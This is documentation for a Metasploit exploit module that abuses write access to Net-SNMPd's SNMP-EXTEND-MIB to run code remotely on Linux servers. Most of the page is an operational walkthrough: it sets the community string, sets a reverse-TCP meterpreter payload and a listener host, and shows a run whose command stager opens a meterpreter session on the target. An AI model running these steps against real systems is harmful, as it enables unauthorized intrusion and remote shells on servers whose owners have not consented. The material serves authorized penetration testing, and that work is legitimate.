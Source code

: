 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options
  **FILEPATH**  
  The location to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp.  
  
  **COMMUNITY**  
  The read/write community string of the target Net-SNMP service.
  
  **VERSION**  
  The SNMP protocol version. Accepted values are '1' or '2c'. 
  
  **CHUNKSIZE**  
  The maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments, but should hopefully work for all cmdstager flavors  
  Note that cmdstager payloads are modified to allow further escaping, so the values limits may also change between cmdstager flavors.  
  This is possibly related to the following bug: [https://sourceforge.net/p/net-snmp/bugs/2542/].
  
  **TIMEOUT**  
  Specifies the maximum time to allow SNMP to timeout.  
  
  **SHELL**  
  The shell to call for the client. Defaults to '/bin/bash'  


  
## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (TCP)
    SHELL      /bin/bash        yes       Shell to call with -c argument
    SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
    SRVPORT    8080             yes       The local port to listen on.
    SSL        false            no        Negotiate SSL for incoming connections
    SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
    TIMEOUT    1                yes       SNMP Timeout
    URIPATH                     no        The URI to use for this exploit (default is random)
    VERSION    2c               yes       SNMP Version <1/2c> 

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run
  
  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Command Stager progress -   1.11% done (199/17924 bytes)
  [*] Command Stager progress -   2.23% done (399/17924 bytes)
  [*] Command Stager progress -   3.34% done (598/17924 bytes)
  [*] Command Stager progress -   4.45% done (797/17924 bytes)
  ... Redacted ...
  [*] Command Stager progress -  98.64% done (17681/17924 bytes)
  [*] Command Stager progress -  99.72% done (17873/17924 bytes)
  [*] Sending stage (857352 bytes) to 192.168.1.3
  [*] Meterpreter session 30 opened (192.168.1.2:4444 -> 192.168.1.3:54230) at 2018-02-14 16:52:49 +0000
  [-] Exploit failed: SNMP::RequestTimeout host 192.168.1.3 not responding
  [*] Exploit completed, but no session was created.
  msf exploit(linux/snmp/net_snmpd_rw_access) > sessions -i 30 
  [*] Starting interaction with 30...
  
  meterpreter > getuid
  Server username: uid=121, gid=129, euid=121, egid=129
  meterpreter > exit
  [*] 192.168.1.3 - Meterpreter session 30 closed.  Reason: User exit

  ```
